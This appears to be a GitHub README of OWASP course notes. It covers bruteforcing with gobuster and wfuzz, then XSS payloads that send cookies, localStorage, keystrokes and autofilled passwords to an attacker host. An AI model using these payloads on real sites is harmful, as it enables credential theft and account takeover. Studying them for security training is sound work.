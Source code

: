 # OWASP Course Notes Repository

This repository contains my personal notes from the recently released OWASP course, which consists of video lessons. I created this repository on GitHub to store the notes that will be useful to me in the future.

---

## CEWL - Wordlist Generation

To generate dictionaries, use the cewl tool.

---

## Gobuster - Directory and Subdomain Bruteforcing

Gobuster is a tool that helps with directory and subdomain bruteforcing.
Repository: https://github.com/OJ/gobuster
### Installation command:
```
go install github.com/OJ/gobuster/v3@latest
```
### Example usage:

```
gobuster dir -u http://188.72.108.59:10008/ -w /usr/share/dirb/wordlists/common.txt -t 5
gobuster dns -d <site.com> -w /usr/share/dirb/wordlists/common.txt #subdomains
```

--- 

## Wfuzz - File and Login Page Bruteforcing

Wfuzz is a tool for file and login page bruteforcing.

### Example usage:

```
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "<site.com>" #files discovery
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt -hc 404 -d "username=admin&password=FUZZ" -hh <number of incorrect bytes> "<site.com>" #bruteforce login page
```

---

## XSS (Cross-Site Scripting)

Reflected XSS: Creating a malicious link that needs to be sent to someone.
Stored XSS: Embedding a trap directly into the website.

### Examples:
If you need to create an alert in an `<h1>` tag:

```
<img src='x' onerror='alert(1)'>
```

### Injection:

```
<script src="http://<ip of your box>/xss.js"></script>
```

### Cookie Stealing and Data Exfiltration

To obtain the cookie file:

```
let cookie = document.cookie;
let encodedCookie = encodeURIComponent(cookie);
fetch("http://<ip>/exfil?data=" + encodedCookie);
```

### Local Storage Data Exfiltration

To retrieve data from the local storage of a website:

```
let data = JSON.stringify(localStorage);
let encodedData = encodeURIComponent(data);
fetch("http://<ip>/exfil?data=" + encodedData);
```

### Keylogging

To implement keylogging on a website:

```
function logKey(event) {
    fetch("http://<ip>/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
```

### Stealing Saved Passwords

To steal saved passwords, assuming that the Chrome browser automatically fills in the password in the input field created by us:

```
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";

body.append(u);
body.append(p);

setTimeout(function() {
    fetch("http://<ip>/k?u=" + u.value + "&p=" + p.value);
}, 5000);
```

---

## Contribution

Feel free to contribute to this repository by adding more notes or suggesting improvements.